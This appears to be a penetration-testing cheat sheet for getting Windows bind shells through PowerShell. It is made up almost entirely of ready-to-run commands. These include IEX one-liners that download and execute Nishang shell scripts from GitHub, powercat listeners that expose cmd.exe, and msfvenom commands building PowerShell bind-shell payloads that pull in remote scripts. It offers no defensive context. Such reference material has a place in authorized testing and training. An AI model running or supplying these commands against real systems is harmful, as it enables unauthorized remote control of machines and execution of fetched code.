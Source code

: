 # PowerShell

## 01 - Nishang

### 1.1 - TCP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Bind -Port <PORT>
```

### 1.2 - UDP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Bind -Port <PORT>
```

## 02 - Generate via `powercat`

Generate bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -g
```

Generate encoded bind shell.

```
> powercat -l -p <PORT> -e cmd.exe -ge
```

## 03 - Generate via `msfvenom`

### 3.1 - x86 (32-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

### 3.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x86-64.ps1
```

---
## References

### Github

- [MrPineMan: Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [Powercat](https://github.com/besimorhino/powercat)

### Hacktricks

- [Hacktricks: Shell Windows](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/windows.html)

### Ironhackers

- [Ironhackers: Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)